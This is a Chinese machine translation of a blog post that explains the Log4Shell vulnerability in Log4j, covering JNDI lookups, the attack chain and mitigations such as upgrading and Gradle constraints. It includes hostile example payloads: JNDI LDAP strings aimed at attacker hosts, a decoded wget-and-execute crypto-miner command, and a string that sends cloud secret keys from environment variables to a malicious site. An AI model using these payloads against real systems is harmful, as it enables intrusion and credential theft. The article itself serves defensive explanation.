

# 我们应该谈谈 Log4j…

> 原文：<https://blog.devgenius.io/we-should-talk-about-log4j-caabd6874a2c?source=collection_archive---------11----------------------->

有没有比毫无戒备地透露剧透更好的开篇方式？嗯，如果有的话，我会在未来使用它，但现在，我们只能说，自从 ***Apache Log4j 漏洞*** 于*12 月 9 日*被披露以来，很多事情都处于危险之中，影响了 Apache Log4j 版本 2.0 到 2.14.1 。该漏洞被命名为***CVE-2021–44228***，达到最高*严重等级 10* 。

这个被称为***log 4 shell****、c* 的漏洞，使得威胁行为者有机会控制任何基于 Java 的面向互联网的服务器，并参与*远程代码执行(RCE)* 攻击。来自[CVE-2021–44228 详情](https://nvd.nist.gov/vuln/detail/CVE-2021-44228):

> 当启用消息查找替换时，可以控制日志消息或日志消息参数的攻击者可以执行从 LDAP 服务器加载的任意代码。

据 [*安全公司*](https://www.cybereason.com/) 称，这个漏洞的影响很可能非常广泛。已经有[报道称，威胁行为者正在积极参与*大规模互联网扫描*](https://arstechnica.com/information-technology/2021/12/minecraft-and-other-apps-face-serious-threat-from-new-code-execution-bug/) 以识别易受攻击的服务器。然而，*不要害怕*，因为在这篇博客中，我们将解释特定的 Log4j 漏洞是什么，为什么它很重要，以及有哪些工具和资源可以帮助您避免恶意软件利用、网络攻击和其他与 Log4j 相关的网络安全风险。所以，让我们开始吧！

## Log4j 是什么？

你们中的许多人可能不是 Java 开发人员，只是对这个安全问题感到好奇，因为互联网正在为此疯狂。所以用几句话概括一下 Log4j 的功能并不是一个坏主意。

观察发现，日志记录占据了代码的很大一部分。因此，即使是小应用程序也会包含数百条日志语句。将日志请求添加到应用程序代码中需要一些计划和努力。然而，像 Log4j 这样的不同日志框架使这个过程变得相当容易，Log4j 是一个 ***开源日志库*** ，通常由互联网上的 *Java 应用*和*服务*使用。基于问题的严重性，它方便地拥有*内置日志级别*和*消息*——关闭、致命、错误、警告、信息、调试和跟踪。

让我们看看这是如何在一个非常简单的 Java 类的帮助下完成的，该类通过设置一个简单的配置来初始化并使用 Log4j，该配置在 ***控制台*** 上登录:

```
package *com.example.log4jdemo*;

import *org.apache.log4j.BasicConfigurator*;
import *org.apache.logging.log4j.LogManager*;
import *org.apache.logging.log4j.Logger*;

public class *Log4jExample* {

    private static final *Logger* LOGGER = *LogManager*.*getLogger*("*Log4jExample.class*");

    public static void main(*String*[] *args*) {
        LOGGER.debug("Hello! This is a debug message");
        LOGGER.info("Hello! This is an info message");
    }
}
```

首先，从 ***日志管理器*** 中获得一个具有类的完全限定名的日志记录器。接下来，记录器用于写入不同严重性级别的消息。这是运行类中的 ***main()*** 方法后的输出:

```
21:44:59.797 [main] DEBUG com.example.springbootsecuritydemo.Log4jExample - Hello! This is a debug message
21:44:59.800 [main] INFO com.example.springbootsecuritydemo.Log4jExample - Hello! This is an info messageProcess finished with exit code 0
```

日志记录的目的通常是提供关于系统中正在发生的事情的信息，这需要包括关于正在被操作的 对象的信息。这可以通过以下方式完成:

```
logger.debug("Logging in user " + user.getName() + " with Email " + user.getEmail());
```

然而，当您经常这样做时，代码开始看起来更像是关于日志而不是手头的任务。此外，日志级别被检查*两次*:一次在调用***is debugenabled()***期间，另一次在 ***调试程序*** 期间。更好的选择应该是这样的:

```
logger.debug("Logging in user {} with Email {}", user.getName(), user.getEmail());
```

使用上面的代码只会检查一次日志记录级别，并且只有在启用了调试日志记录的情况下才会进行字符串构造。虽然这种语法在处理日志问题时非常方便，但它实际上已经成为这条突发新闻的原因。和我呆在一起，我们一会儿将研究细节。

## 什么是 JNDI？

是时候在我们的教程中介绍一下 ***JNDI*** 了，它代表 *Java 命名和目录接口*。它是一个 Java API，为 Java 应用程序提供名称和目录功能。您将需要 JNDI 类和一个或多个服务提供商来使用它。 *JDK* 包括多个命名/目录服务的服务提供者，包括 ***LDAP*** (轻量级目录访问协议) ***RMI*** (远程方法调用)注册表、 ***DNS*** (域名服务)。

JNDI 允许分布式应用程序以抽象的、独立于资源的方式查找服务。本质上，这是一个更安全的替代方法，可以让属性文件包含您的 JDBC 连接信息，从而使部署更容易。简单来说，它就像一个 ***散列表*** ，带有一个*字符串键和代表 web 上资源的对象值*。

***如果没有 JNDI*** ，应用程序将不得不硬编码远程资源的位置或访问信息，或者使其在配置中可用。维护这些数据既耗时又容易出错。例如，如果一个资源被移动到不同的服务器，使用不同的 IP 地址，所有使用它的应用程序必须用新信息更新。对 JNDI 来说没必要这样。只有该资源的资源绑定必须更新。应用程序仍然可以使用它的名称来访问它，并且重新定位是透明的。

在一个 *Java EE 应用服务器*上建立一个*数据库连接池*是最常见的用例。在该服务器上运行的任何应用程序都可以使用名为***Java:comp/env/class***的 JNDI 来访问它需要的连接，而不必知道连接的细节。*这里有你遗漏的任何警告标志吗？*

## JNDI 如何适应大局？

正如你已经知道的，Log4j 允许你 ***记录表达式*** 。看一下这段代码:

```
package *com.example.log4jdemo*;

import *org.apache.log4j.BasicConfigurator*;
import *org.apache.logging.log4j.LogManager*;
import *org.apache.logging.log4j.Logger*;

public class *Log4jExample* {

    private static final *Logger* LOGGER = *LogManager*.*getLogger*("HelloWorld");

    public static void main(*String*[] *args*) {
        LOGGER.error("Error message: {}", error.getMessage());
    }
}
```

您在这里所做的是*将来自*错误对象*的错误消息*放入*字符串*中。因此，Java 将 ***运行这段代码*** ，然后将值插入字符串，输出将包含表达式右边部分执行代码的结果。

只要我们将对象及其属性发送给我们的日志记录器，这就是典型的日志记录。这是不言而喻的，本身不是问题。不过，暂且考虑一下 ***JNDI*** 。你还记得这是干什么用的吗？它允许我们在将 Java 对象序列化到您的 ***JVM*** 之前，将***Java 对象保存在远程服务器 ***上。一个活动目录链接应该是这样的:***LDAP://***[***www.example.com:8000/dc=example,dc=com***](http://www.example.com:8000/dc=example,dc=com)。我们可以使用这个 URL 从另一个位置检索一个序列化的 Java 对象。这个和 Log4j 没关系。这是一个已经存在了相当一段时间的 ***Java 功能*** 。******

好吧，现在拿起你的爆米花，坐好了…


几年前，Log4j 中引入了 ***JNDI 查找特性*** ，它允许您从日志消息中进行 JNDI 查找。下面是一个很好的用例，例如，您在一个配置服务器上有一个集中的日志记录配置，您希望通过 JNDI 序列化它，并让它影响日志记录消息，比如日志记录路径或前缀。上面的代码看起来是这样的:

```
public static void main(*String*[] *args*) {
        LOGGER.error("{}: Error message: {}", "${jndi:ldap://logconfig/prefix}", error.getMessage());
    }
```

我们实际上是在传递一个 ***URL*** 而不是一个值。这不是 Java 能解决的问题。我们将这个传递给 Log4j。语法 ***${…}*** 指示 Log4j 实际搜索它。在这里，我们已经看到了它所有威严的弱点。

简单提示一下，Log4j 支持 ***不安全的 JNDI 查找*** ，这可能允许未经认证的*，*远程攻击者*，*以易受攻击的 Java 应用程序的权限通过 *LDAP、RMI、*和 *DNS* 执行任意代码*。但是，问题依然存在: ***如何？****

## *Log4j 漏洞如何被利用？*

*让我用一个来自[***SecureWorks***](https://www.secureworks.com/blog/log4j-vulnerability-faqs)的又好又简单的例子:*

> *1.威胁参与者可能会向易受攻击的机器发送一个包含恶意有效负载的特制字符串。系统记录的任何字段，如用户代理字符串、推荐人、用户名或电子邮件地址、设备名称或自由文本输入，都可能包含此字符串。*
> 
> *2.该字符串可能类似于**$ { JNDI:LDAP://attacker . com/a }**——其中 attacker.com 是威胁参与者控制的 **LDAP 服务器**——被传递给 Log4j 进行记录。*
> 
> *3.Log4j 漏洞由该有效载荷触发**并且易受攻击的系统使用 JNDI 来**查询**威胁参与者控制的 LDAP 服务器。***
> 
> *4.威胁参与者控制的 LDAP 服务器**用包括**远程 Java 类文件**的信息来响应**(例如，hXXp://second-stage . attack . com/exploit . class)。*
> 
> *5.这个 Java 类被**反序列化**(下载)和**执行**。*

*这个由 ***瑞士***[***CERT***](https://www.govcert.admin.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)组成的图形视图很好地说明了这个攻击链:*

**

*CERT 发起的 Log4j JNDI 攻击的图形视图*

*对于那些仍然不确定攻击者如何获得对您系统的访问权并向您的日志记录器传输特殊构造的字符串的人，让我提供一个例子。假设你有一个搜索页面，用户可以在输入表单中输入搜索参数，你的应用程序会接受并搜索这些参数——很简单。你将搜索标准记录在你的应用程序中。嗯……这里会出什么问题呢？*

*想象一下，如果有人放入以下内容会怎么样:***$ { JNDI:LDAP://恶意站点/恶意对象}*** 。这段代码会做什么？该代码将向参数中指定的域发送 JNDI 请求。我相信你现在对这个问题有了新的看法。您的 *JVM* 现在包含一个恶意对象。这听起来很疯狂，但它不是无缘无故地被称为零日漏洞，对吗？*

*如果你真的能够在一个主流网站的 JVM 中为你的代码创建一个 Java 对象，你将得到 ***对一切的完全控制。你可以在任何时候运行任何你想运行的代码。这被称为 RCE(远程代码执行)。根据 ***SecureWorks*** 的说法，事实上，这正是大多数攻击者试图通过传递 ***Base64 编码的*** 命令来做下载 ***加密货币矿工*** 之类的事情。例如下面的 *Base64* :****

```
*{jndi:ldap://<redacted_IP>:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9s*
```

**将*解码为:*

```
*wget hXXp://62.210.130[.]250/lh.sh;chmod +x lh.sh;./l*
```

*简单的说，突击利用 Log4j 漏洞下载 ***软件*** ，然后发起下载一个 ***。exe 文件*** ，然后安装一个 ***的 crypto-miner*** 。一旦安装完毕，加密矿工就开始*利用受害者的资源*为攻击者的利益挖掘加密货币，所有的 ***都不会让受害者意识到*** 他们已经被黑了。*

*这个漏洞被命名为 ***Log4Shell*** 是有原因的。几乎就像任何人都可以在任何服务器上打开一个 shell 并发出命令。 ***是啊，就那么差！****

## *解决方法是什么？*

*在本教程结束时，您可能会想，“*嗯，这对我很好，因为我没有使用 Log4j…* ”但是，*您有多确定*？您的库可能使用 Log4j 进行日志记录，即使您没有直接使用它，或者它们可能使用其他利用 Log4j 进行日志记录的库。这个循环永无止境。鉴于 Log4j 的流行，任何运行在互联网上的适当规模的 Java 应用程序都可能安装了它。*

*首先，解决这个问题最简单的方法是通过在 JVM 中 ***设置几个标志为假*** 来**阻止任何来自外部 URL**的代码:*

```
*com.sun.jndi.ldap.object.trustURLCodebase
con.sunjndi.rmi.object.trustURLCodebase*
```

*然而，即使这些标志被禁用，并且您的 JVM 不信任并反序列化它接收到的对象，如果进行了调用，您可能仍然会遇到 ***环境变量*** 的问题。看一看以下内容:*

```
*${jndi:ldap://www.maliciouswebsite.com:1234/${env:GCP_ACCESS_KEY_ID}/${env:GCP_SECRET_ACCESS_KEY}}*
```

*您的键值很可能会被保存为环境变量，您会将这些变量传输到恶意站点。即使你不信任来电回复，但电话已经打了，数据也已经转移了。你的 ***访问*** 和 ***秘密*** 的钥匙将会在黑客手中。*

*为了避免所有这些混乱，你必须首先 ***更新 Log4j 到一个更新的版本*** (2.16 或更高)。Log4j ***2.16.0*** (对于 Java 8 或更高版本)中禁用了消息查找功能，并且为了缓解 CVE-2021–44228 和 CVE-2021–45046，JNDI 在默认情况下处于禁用状态。此外，从版本 ***2.17.0*** (对于 Java 8)开始，JNDI 连接中不再支持 LDAP 协议，仅支持 Java 协议。*

*这是一个简单的方法，但是如果你有很多*交织*的依赖关系，这可能会导致问题。另一个选择是 ***直接给类*** 打补丁，这样就不用手动升级每个依赖的版本了。*

*如果你使用 Gradle，还有一个叫做 ***的依赖约束*** 的东西。下面这段代码基本上是说你想要某个版本的库，不考虑依赖关系，而且必须是 ***严格更新*** 到 2.16 以上。*

```
**dependencies* {
    *constraints* {
        *implementation("org.apache.logging.log4j*:log4j-core") {
            *version* {
                *strictly("[2.16,* 3[")
                *prefer("2.16.0)
            }
            because("CVE-2021-44228*: Log4j vulnerable to remote code execution")
        *}
    }
}**
```

*你可能已经猜到了，在黑客进入你的机器之前，尽快解决这个*是很关键的。感兴趣的读者可以在互联网上找到一些资源，提供全面的 [***问答环节***](https://www.secureworks.com/blog/log4j-vulnerability-faqs) 。Google 还编制了一份受影响的 500 个包 的列表 ***，其中包括一些最重要的传递性使用。作为维护者或用户优先考虑这些包可能会最大化您的影响。*****

**总而言之，检查您的系统的 Log4j 使用情况，查看易受影响的应用程序列表，联系软件供应商，配置 web 应用程序防火墙规则，监控扫描活动，监控漏洞利用，保持消息灵通，当然， ***不要错过我未来的文章*** ！**